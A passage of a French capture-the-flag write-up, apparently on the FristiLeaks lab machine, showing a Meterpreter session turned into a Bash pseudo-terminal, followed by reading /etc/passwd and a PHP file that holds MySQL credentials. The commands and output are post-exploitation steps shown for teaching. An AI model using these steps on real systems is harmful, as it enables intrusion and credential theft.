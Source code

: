 Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : localhost.localdomain
OS          : Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64
Meterpreter : php/linux
meterpreter > shell
Process 2047 created.
Channel 0 created.

id
uid=48(apache) gid=48(apache) groups=48(apache)

python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.1$ 
```

Partons à la recherche de fichiers intéressants... le fichier ```checklogin.php``` contient par exemple un mot de passe pour se connecter à la base de données MySQL.

```console
bash-4.1$ pwd
pwd
/var/www/html/fristi/uploads

bash-4.1$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
--snip--
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
vboxadd:x:498:1::/var/run/vboxadd:/bin/false
eezeepz:x:500:500::/home/eezeepz:/bin/bash
admin:x:501:501::/home/admin:/bin/bash
fristigod:x:502:502::/var/fristigod:/bin/bash
fristi:x:503:100::/var/www:/sbin/nologin

bash-4.1$ cat /var/www/html/fristi/checklogin.php
cat /var/www/html/fristi/checklogin.php

--snip--
$host="localhost"; // Host name
$username="eezeepz"; // Mysql username
$password="4ll3maal12#"; // Mysql password
$db_name="hackmenow"; // Database name
$tbl_name="members"; // Table name
--snip--
```
